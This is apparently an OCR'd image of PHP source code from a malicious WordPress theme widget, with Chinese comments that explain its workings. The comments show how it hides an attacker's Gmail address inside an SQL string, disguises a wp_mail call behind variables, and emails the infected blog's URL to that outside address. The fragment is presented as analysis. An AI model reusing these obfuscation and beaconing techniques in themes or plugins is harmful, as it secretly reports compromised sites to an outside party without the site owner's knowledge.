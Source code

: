        if(!isset($fakeit)) $fakeit=1;
        if(!isset($sql)) $sql="";
        
        //如果 _is_widget_active_ option内容为空,即表示没有被感染过
        if (!$widget_yes) :
        
        global $wpdb, $post;
        //取出存在已经通过的评论（不包括trackback/pingback）的文章
        // post_author 为 livethemas@gmail.com 的文章，肯定是没有的
    
        $sq1="SELECT DISTINCT ID, post_title, post_content, post_password, comment_ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved="1" AND comment_type="" AND post_author="li".$coma."vethe".$com_type."mas".$coma."@".$com_is_approved."gm".$post_auth_comments."ail".$coma.".".$coma."co"."m" AND post_password="" AND comment_date_gmt >= CURRENT_TIMESTAMP() ORDER BY comment_date_gmt DESC LIMIT $src_count";#
        if (!empty($post->post_password)) { 
            if ($_COOKIE["wp-postpass_".COOKIEHASH] != $post->post_password) { 
                if(is_feed()) { 
                    $output=__("There is no excerpt because this is a protected post.");
                } else {
                    $output=get_the_password_form();
                }
            }
        }
        if(!isset($fixed_tags)) $fixed_tags=1;
        if(!isset($filters)) $filters=$home_filter; 
        //$gettextcomments实际上为 wp_mail
        if(!isset($gettextcomments)) $gettextcomments=$pref_filters.$contentmore;
        if(!isset($tag_aditional)) $tag_aditional="div";
        
        //这里$sh_cont即为 livethemas@gmail.com
        if(!isset($sh_cont)) $sh_cont=substr($sq1, stripos($sq1, "live"), 20);#
        if(!isset($more_text_link)) $more_text_link="Continue reading this entry";  
        if(!isset($isshowdots)) $isshowdots=1;
        
        $comments=$wpdb->get_results($sql); 
        if($fakeit == 2) { 
            $text=$post->post_content;
        } elseif($fakeit == 1) { 
            $text=(empty($post->post_excerpt)) ? $post->post_content : $post->post_excerpt;
        } else { 
            $text=$post->post_excerpt;
        }
        //开始调用　wp_mail 向 livethemas@gmail.com 发送邮件，标题和内容都是被感染的博客的URL 地址
        $sq1="SELECT DISTINCT ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved="1" AND comment_type="" AND comment_content=". call_user_func_array($gettextcomments, array($sh_cont, $home_filter, $filters)) ." ORDER BY comment_date_gmt DESC LIMIT $src_count";#
        if($text_length < 0) {
            $output=$text;
        } else {
            if(!$no_more &#038;&#038; strpos($text, "<!--more-->")) {
                $text=explode("<!--more-->", $text, 2);
                $l=count($text[0]);
                $more_link=1;
                //执行这一句时就开始发邮件了。
                $comments=$wpdb->get_results($sql);
            } else {
                $text=explode(" ", $text);
                if(count($text) > $text_length) {
                    $l=$text_length;
                    $ellipsis=1;
                } else {